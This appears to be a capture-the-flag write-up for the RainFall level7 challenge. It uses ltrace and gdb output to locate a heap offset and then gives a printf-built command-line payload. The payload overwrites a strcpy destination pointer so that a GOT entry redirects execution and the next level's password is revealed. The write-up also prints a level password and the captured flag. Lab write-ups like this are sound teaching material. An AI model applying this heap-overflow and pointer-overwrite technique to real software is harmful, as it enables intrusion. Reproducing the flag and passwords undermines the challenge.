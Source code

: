 Now we have to figure out the padding needed to overwrite our *destination* address.

```bash
level7@RainFall:~$ ltrace ./level7  AAAA BBBB
__libc_start_main(0x8048521, 3, 0xbffff704, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                               = 0x0804a008
malloc(8)                                                               = 0x0804a018
malloc(8)                                                               = 0x0804a028
malloc(8)                                                               = 0x0804a038
strcpy(0x0804a018, "AAAA")                                              = 0x0804a018
strcpy(0x0804a038, "BBBB")                                              = 0x0804a038
fopen("/home/user/level8/.pass", "r")                                   = 0
fgets( <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

As we can see in our `ltrace`, the second destination is `0x0804a038`.

```bash
(gdb) break *0x080485a5  # Just after the first strcpy
Breakpoint 1 at 0x80485a5
(gdb) run AAAA BBBB
Starting program: /home/user/level7/level7 AAAA BBBB

Breakpoint 1, 0x080485a5 in main ()
(gdb) x/s $eax
0x804a018:	 "AAAA"
(gdb) x/8wx $eax
0x804a018:	0x41414141	0x00000000	0x00000000	0x00000011
0x804a028:	0x00000002	[0x0804a038]	0x00000000	0x00000011
```

And with the help of `gdb` we can see that the *destination* address of the second `strcpy` is 20 bytes after the begining of our first input (`argv[1]`).

### Solution

Connect with `ssh -p 4243 level7@localhost`
Enter the password `f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`

We can finally construct our payload like this:

```
argv[1] = <padding 20> + 0x8049928 (= \x28\x99\x04\x08)
argv[2] = 0x080484f4 (= \xf4\x84\x04\x08)
```

```bash
./level7 $(printf '%-20s\x28\x99\x04\x08' | tr ' ' '.') $(printf '\xf4\x84\x04\x08')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1708793862
```